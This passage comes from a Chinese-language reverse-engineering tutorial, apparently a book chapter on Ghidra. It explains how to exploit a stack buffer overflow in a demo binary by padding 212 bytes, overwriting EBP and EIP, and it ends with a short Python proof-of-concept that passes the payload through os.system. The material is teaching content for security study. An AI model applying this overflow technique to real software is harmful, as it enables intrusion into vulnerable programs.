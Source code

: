 ](img/B16207_08_015.jpg)

图 8.15 – 触发溢出以导致拒绝服务（DoS）

要利用栈溢出漏洞，你需要做两件事：

获取程序流程的控制权，将其重定向到你的恶意代码（也称为载荷或 shellcode）。

注入你想要执行的恶意代码（或重用现有代码）。

我们从二进制文件的反编译代码中得知缓冲区的大小是 212 字节，因此我们可以写入 212 个字符而不会触发基于栈的溢出：

```
payload = 'A'*212
```

由于 `strcpy` 使用 `cdecl` 调用约定，`EBP` 将被函数从栈中移除，因此会从栈中移除 4 字节：

![图 8.16 – Ghidra 识别 strcpy 的 cdecl 调用约定](img/B16207_08_016.jpg)

](img/B16207_08_016.jpg)

图 8.16 – Ghidra 识别 strcpy 的 cdecl 调用约定

我们可以通过从填充 A 的数据中减去对应 `EBP` 的 4 字节，并添加 4 字节的 B 数据来适配载荷，从而覆盖返回地址：

```
payload  = 'A'*(212-4)
```

```
payload += 'B'*4
```

如果我们继续覆盖，由于调用方执行的 `CALL` 指令将下一条指令的地址放到栈上，我们将能够控制程序流程，从而实现我们的第一个目标。所以，我们将能够用任意值覆盖 `EIP` 寄存器：

```
payload += 'C'*4
```

完整的 **概念验证** (**PoC**) Python 代码如下所示：

```
import os
```

```
payload  = 'A'*(212-4)
```

```
payload += 'B'*4
```

```
payload += 'C'*4
```

```
os.system("stack_overflow.exe " + payload)
```
